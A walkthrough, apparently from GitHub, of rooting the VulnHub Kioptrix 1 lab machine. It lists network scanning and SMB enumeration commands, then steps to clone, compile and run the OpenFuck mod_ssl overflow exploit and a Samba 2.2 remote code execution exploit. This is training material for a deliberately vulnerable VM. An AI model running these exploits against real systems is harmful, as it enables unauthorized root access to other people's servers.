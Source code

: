 # Kioptrix 1 - VulnHub

**netdiscover -i eth0**

![kio1](https://user-images.githubusercontent.com/15195048/95851963-4b32d000-0d53-11eb-801a-7851796a3b23.png)

**IP 192.168.1.10**

**nmap -sC -sV 192.168.1.10**

![kio2](https://user-images.githubusercontent.com/15195048/95851965-4c63fd00-0d53-11eb-9b2a-855be54df5ba.png)

## 1. Exploiting Apache 

OpenSSH 2.9p2 (protocol 1.99)
Http mod_ssl/2.8.4
This module provides SSL v2/v3 and TLS v1 support for the Apache HTTP Server. 
Exploits: Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow 

**searchsploit mod_ssl**

![kio3](https://user-images.githubusercontent.com/15195048/95851966-4cfc9380-0d53-11eb-911e-2d0536d6b4b3.png)

 
## A) ExploitDB 
Link:https://www.exploit-db.com/exploits/764
number of errors
FIX
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1

## B) GITHUB

Link:https://github.com/exploit-inters/OpenFuck

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/heltonWernik/OpenFuck.git
apt-get install python3.8-venv
apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto
./OpenFuck
./OpenFuck 0x6a 192.168.80.145 443 -c 40
error
./OpenFuck 0x6b 192.168.80.145 443 -c 40 works
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


![kio4](https://user-images.githubusercontent.com/15195048/95851969-4cfc9380-0d53-11eb-98d4-8b7642f08530.png)


## 2. Samba Exploit

** 1.enum4linux -a 192.168.1.10

2.smbclient 192.168.1.10 or smbclient -N -L \\192.168.1.10\\

3.nmap -p 139 --script=smb-vuln* 192.168.1.10

4.smbmap -P 139 -H 192.168.1.10 **

5.samba_version.py Github
https://github.com/amitn322/smb-version/blob/master/samba_version.py
python smb-version/samba_version.py -s 192.168.1.10

![kio5](https://user-images.githubusercontent.com/15195048/95851970-4d952a00-0d53-11eb-9d2a-27844dc33287.png)


Samba2.2
** searchsploit samba 2.2 **

![kio6](https://user-images.githubusercontent.com/15195048/95851974-4e2dc080-0d53-11eb-9467-a88125c91e68.png)



Samba < 2.2.8 (Linux/BSD) - Remote Code Execution


![kio7](https://user-images.githubusercontent.com/15195048/95851978-4ec65700-0d53-11eb-8007-ac8f11e13e5f.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
gcc 10.c
./a.out -b -o 192.168.1.10
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![kio8](https://user-images.githubusercontent.com/15195048/95851983-4ec65700-0d53-11eb-98ea-370a424c4437.png)


Rooted
